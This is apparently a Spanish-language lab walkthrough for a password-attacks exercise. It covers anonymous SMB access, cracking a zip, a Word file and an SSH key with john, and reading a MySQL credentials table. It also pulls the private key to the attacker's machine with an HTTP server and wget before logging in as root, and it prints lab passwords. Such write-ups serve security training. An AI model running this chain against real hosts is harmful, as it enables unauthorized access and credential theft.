







Laboratorio de Ataques de Contraseña - Medio
Enunciado
Nuestro próximo host es una estación de trabajo que utiliza un empleado para su trabajo diario. Este tipo de hosts se utilizan a menudo para intercambiar archivos con otros empleados y suelen ser administrados por administradores a través de la red. Durante una reunión con el cliente, nos informaron que muchos usuarios internos utilizan este host como host de acceso directo. El objetivo es proteger los archivos que contienen información confidencial.
Enumeración de puertos
Vamos con lo básico a ver qué servicios están corriendo sobre el servidor.
nmap -p- -sS --min-rate 2000 -n -Pn <IP>
 Vemos que tenemos los puertos 22, 139 y 445 abiertos, vamos a recoger más información de los servicios que hay corriendo en cada puerto que nos salió a ver si vemos algo interesante.
Vemos que tenemos los puertos 22, 139 y 445 abiertos, vamos a recoger más información de los servicios que hay corriendo en cada puerto que nos salió a ver si vemos algo interesante.
nmap -p22,139,445 -sCV -n -Pn <IP>

Vemos las versiones de los servicios, así como que está corriendo un Linux en el servidor. Procedemos a recopilar más información sobre smb
enum4linux-ng <IP>
 Representándonos principalmente la siguiente información:
Representándonos principalmente la siguiente información:
- Nombre del equipo:
SKILLS-MEDIUM - Sistema operativo: Linux
- Está permitida la sesión SMB sin credenciales.
- Usuario válido:
sam - Comparticiones:
SHAREDRIVEprint$IPC$
Entonces dado que permite la conexión sin credenciales vamos a intentar listar información del servidor.
smbclient //<IP>/SHAREDRIVE -N
 Vemos que tenemos un archivo
Vemos que tenemos un archivo .zip, lo descargamos
get Docs.zip
Al intentar abrirlo nos damos cuenta que tiene contraseña con lo que procedemos a extraer el hash para luego intentar crackearlo.
zip2john Docs.zip > zip.hash

Utilizando los diccionarios que nos brinda el mismo módulo de ataques a contraseñas crackeamos el hash.
john --wordlist=/.../mut_password.list zip.hash

Dando la contraseña del archivo Destiny2022!. A continuación lo descomprimimos usando este password.
unzip Docs.zip
 Sin embargo vemos que el archivo está encriptado.
Sin embargo vemos que el archivo está encriptado.
Con lo cual usamos office2john para extraer su hash e intentar crackearlo posteriormente.
office2john Documentation.docx > docx.hash

Igual crackeamos el hash con las wordlist que nos dieron en el modulo:
john --wordlist=/.../mut_password.list docx.hash

Donde vemos que pudimos encontrar el hash correspondiente.
Ahora procedemos a abrir el archivo .docx.
Vemos que tenemos lo siguiente:

jason:C4mNKjAtL2dydsYa6
Con las credenciales nos autenticamos por ssh para entrar al servidor.
ssh jason@<IP>
#Password
 Luego de revisar un poco la información del servidor con el siguiente comando podemos ver qué puertos están abiertos y qué servicios están escuchando.
Luego de revisar un poco la información del servidor con el siguiente comando podemos ver qué puertos están abiertos y qué servicios están escuchando.
ss -tuln
 Nos fijamos que tenemos escuchando los servicios 22(ssh), 53(dns), 139|445 (smb), 3306|33060(mysql).
Nos fijamos que tenemos escuchando los servicios 22(ssh), 53(dns), 139|445 (smb), 3306|33060(mysql).
Intenamos entrar al servidor mysql con las credenciales de jason.

Y nos lo permite, a continuación vemos las bases de datos disponibles.
show databases;

use users;
Usamos la base de datos users y vemos las tablas de dicha base de datos
show tables;
 Hacemos una consulta a ver que información tiene y vemos una lista de usuarios y contraseñas.
Hacemos una consulta a ver que información tiene y vemos una lista de usuarios y contraseñas.
select * from creds;

y vemos que al final de la tabla hay tenemos las credenciales de dennis el otro usuario del servidor.

Nos autenticamos como dennis
su dennis
#Password

En el directorio de dennis vemos que tenemos un archivo .bash_history y al abrirlo vemos que se crearon un par de claves ssh y luego vemos que hacen un sudo -l.

Vamos a traernos a local el id_rsa del directorio personal de dennis para analizarlo mejor.
Nos movemos en el servidor al directorio /home/dennis/.ssh/
cd .ssh/
#Nos montamos un servidor python para enviar el archivo id_rsa a nuestra máquina local.
python3 -m http.server
#En la máquina local hacemos un wget para bajarnos el archivo id_rsa
wget http://<IP>:8000/id_rsa

Luego le pasamos el ssh2john para extraer su hash y ver si lo podemos crackear.
ssh2john id_rsa > ssh.hash

Lo crackeamos con la wordlist de passwords que nos dieron en el modulo luego de haberle aplicado los respectivos custom.rules.
john --wordlist=/.../mut_password.list ssh.hash
 Viendo que podemos crackear el hash.
A continuación usamos el id_rsa para autenticarnos como root
ssh root@<IP> -i id_rsa

Ya lo que queda es ir al directorio donde está la flag y leerla.

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías